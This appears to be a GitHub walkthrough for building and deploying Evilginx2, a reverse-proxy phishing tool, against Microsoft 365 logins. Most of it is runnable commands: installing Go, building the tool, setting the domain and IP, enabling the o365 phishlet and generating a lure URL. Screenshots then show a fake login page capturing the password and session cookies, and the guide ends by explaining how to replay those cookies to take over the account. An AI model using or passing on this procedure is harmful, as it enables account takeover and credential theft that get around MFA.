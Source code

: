 Before proceeding with the installation of Evilginx, let’s ensure that wget is installed on the VPS.
```bash
sudo apt update 
sudo apt install wget -y
```


Next, let’s download the Go installation files.
```bash
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz
```

Install Go by executing the following command:
```bash
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/
```

Next, configure the PATH environment variable by running:
```bash
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh
```

Execute the following commands to clone the source files from GitHub:
```bash
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make
```

After completing the cloning process, we can proceed to install Evilginx globally and run it.
```bash
sudo make install 
sudo evilginx
```

Now it is time to configure evilginx. We are going to simulate this with a Microsoft 365 account. For my domain, I am doing evilginxtest.shop. For my IP, it is: 52.144.47.242
```bash
config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth
```

Next, let’s configure the Office 365 phishlet to match our domain.
```bash
phishlets hostname o365 <yourdomain> 
phishlets enable o365
```

If you encounter an SSL/TLS error at this stage, it indicates that your DNS records are not yet in place. When a phishlet is enabled, Evilginx attempts to obtain a free SSL certificate from LetsEncrypt for the new domain.
However, this process requires the domain to be accessible. Once the new SSL certificate is successfully activated, you can anticipate some traffic from scanners. If you’ve previously adjusted the blacklist to “unauth,” these scanners will be blocked.

In the next step, we’ll set the lure for the Office 365 phishlet and define the redirect URL. This URL comes into play after the credentials are phished and can be customized according to your preferences. For this example, we’ll use https://portal.office.com/.
```bash
lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0
```

Our phishlet is now active and accessible via the URL https://login.evilginxtest.shop/RdgjuhBs (no longer active). When accessing the URL from the lure, you’ll be treated as an authenticated session, thus avoiding being blocked. 

Let us see what happens when a user goes to this link:

It seems like a regular microsoft login page.
![image](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After entering the username and password, the user's credentials are caught through the reverse proxy the malicious domain simulates
![image](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

After a full sign in, we have got the session cookies. We can use the command "Sessions 0" (mine may be a different number, because I had multiple.)
![image](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

And there you go. If you copy and paste these cookies after clearing your own into a cookie extension on your browser while on office.com, you refresh the page and you are in!





